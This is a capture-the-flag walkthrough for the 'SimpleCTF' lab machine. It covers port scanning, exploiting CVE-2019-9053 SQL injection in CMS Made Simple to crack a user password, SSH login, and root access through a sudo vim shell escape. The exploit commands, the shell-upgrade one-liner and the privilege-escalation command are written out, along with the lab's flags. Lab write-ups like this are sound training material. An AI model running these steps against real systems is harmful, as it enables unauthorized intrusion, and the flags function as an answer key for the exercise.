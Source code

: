 # SimpleCTF

## #1 How many services are running under port 1000?
```
nmap <ip>
21/tcp   closed ftp
80/tcp   closed http
2222/tcp closed EtherNetIP-1
```
2
## #2 What is running on the higher port?
```
nmap -p2222 -sV -sC <ip>

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
SSH

## #3 What's the CVE you're using against the application?
CMS Made Simple version 2.2.8
CVE-2019-9053

## #4 To what kind of vulnerability is the application vulnerable?
SQLi

## #5 What's the password?
Search for exploit using searchsploit
```
searchsploit cms made simple
```

Copying the exploit file to folder
```
searchsploit -m php/webapps/46635.py
```

Using the exploit to get username and password
```
python 46635.py -u http:// /simple -c -w /opt/rockyou.txt
```
Result:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## #6 Where can you login with the details obtained?
Connect to SSH
```
ssh mitch@10.10.209.209 -p 2222
```

## #7 What's the user flag?
G00d j0b, keep up!

## #8 Is there any other user in the home directory? What's its name?
Start with stabelising the shell
```
python -c "import pty; pty.spawn('/bin/bash')" 
```
ls the user folders
```
cd
cd ..
ls
mitch  sunbath
```

## #9 What can you leverage to spawn a privileged shell?
List out what we can do
```
sudo -l
```
We can use vim as root without using the password
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Get root by using vim.
```
sudo vim -c ':!/bin/sh'
```

Stabelice the shell after getting root
```
python -c "import pty; pty.spawn('/bin/bash')"
```

## #10 What's the root flag?
```
cat /root/root.txt
```
W3ll d0n3. You made it!

